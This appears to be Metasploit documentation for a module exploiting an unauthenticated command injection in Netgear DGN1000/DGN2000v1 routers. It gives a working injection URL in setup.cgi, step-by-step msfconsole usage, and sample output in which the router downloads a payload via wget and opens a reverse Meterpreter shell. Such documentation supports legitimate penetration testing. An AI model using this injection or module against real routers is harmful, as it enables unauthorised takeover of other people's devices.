 The module netgear_dgn1000_setup_unauth_exec exploits an unauthenticated OS command injection vulnerability in vulnerable Netgear DGN1000 with firmware versions up to `1.1.00.48` in addition to DGN2000v1 models, all firmware versions. The vulnerability occurs in within the `syscmd` fuction of the `setup.cgi` script to execute arbitrary commands. Manual exploitation could be completed through the browser, as for example : `http://<RouterIP>/setup.cgi?next_file=netgear.cfg&todo=syscmd&cmd=echo+vulnerable&curpath=/&currentsetting.htm=1`. Such example will return "vulnerable" on the page. Vulnerable models have `wget` installed on `/usr/bin/wget` and can be leveraged to drop a MIPS Big Endian payload.

## Vulnerable Application

Netgear DGN1000 with firmware versions up to `1.1.00.48` and DGN2000v1 models

## Verification Steps

  1. Start msfconsole
  2. Do : `use exploit/linux/http/netgear_dgn1000_setup_unauth_exec`
  3. Do : `set RHOST [RouterIP]`
  4. Do : `set PAYLOAD [payload]`
  5. Do : `run`
  6. If router is vulnerable, payload should be dropped via wget and executed, and therein should obtain an session

## Scenarious

Sample output of a successfull exploitation should be look like this :

```
msf > use exploit/linux/http/netgear_dgn1000_setup_unauth_exec
msf exploit(netgear_dgn1000_setup_unauth_exec) > set RHOST 192.168.0.1
RHOST => 192.168.0.1
msf exploit(netgear_dgn1000_setup_unauth_exec) > set RPORT 80
RPORT => 80
msf exploit(netgear_dgn1000_setup_unauth_exec) > set LHOST eth0
LHOST = eth0
msf exploit(netgear_dgn1000_setup_unauth_exec) > set PAYLOAD linux/mipsbe/meterpreter/reverse_tcp
PAYLOAD => linux/mipsbe/meterpreter/reverse_tcp
msf exploit(netgear_dgn1000_setup_unauth_exec) > run

[*] Started reverse TCP handler on 192.168.0.11:4444
[*] 192.168.0.1:80 - Connecting to target...
[*] 192.168.0.1:80 - Exploiting target ....
[*] Using URL: http://0.0.0.0:8080/DnuJhOHYg7auIz
[*] Local IP: http://192.168.0.11:8080/DnuJhOHYg7auIz
[*] Client 192.168.0.1 (Wget) requested /DnuJhOHYg7auIz
[*] Sending payload to 192.168.0.1 (Wget)
[*] Sending stage (1073332 bytes) to 192.168.0.1
[*] Meterpreter session 2 opened (192.168.0.11:4444 -> 192.168.0.1:51558) at 2017-10-20 20:37:06 -0400
[*] Command Stager progress - 100.00% done (129/129 bytes)
[*] Server stopped.

meterpreter > sysinfo
Computer     : 192.168.0.1
OS           :  (Linux 2.6.20-Amazon_SE)
Architecture : mips
Meterpreter  : mipsbe/linux
meterpreter >
```

